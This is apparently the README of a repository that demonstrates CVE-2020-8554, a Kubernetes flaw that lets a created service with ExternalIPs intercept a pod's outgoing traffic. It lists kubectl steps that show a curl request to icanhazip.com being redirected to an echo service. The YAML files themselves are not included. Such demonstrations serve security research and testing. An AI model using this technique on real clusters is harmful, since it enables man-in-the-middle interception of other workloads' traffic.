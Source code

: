# CVE-2020-8554 demo

This is based on Etienne's [blog post](https://blog.champtar.fr/K8S_MITM_LoadBalancer_ExternalIPs/). this should work in any Kubernetes cluster that doesn't have specific admission controller policies designed to stop it, with the exception of clusters with a Cilium CNI and no Kube-proxy.

1. `kubectl create -f client-pod.yaml`
2. `kubectl exec client-pod -- curl -s http://icanhazip.com` - This should return your external IP address
3. `kubectl create -f deployment.yaml`
4. `kubectl create -f service.yaml`
5. `kubectl exec client-pod -- curl -s http://icanhazip.com` - This should give the echo response.
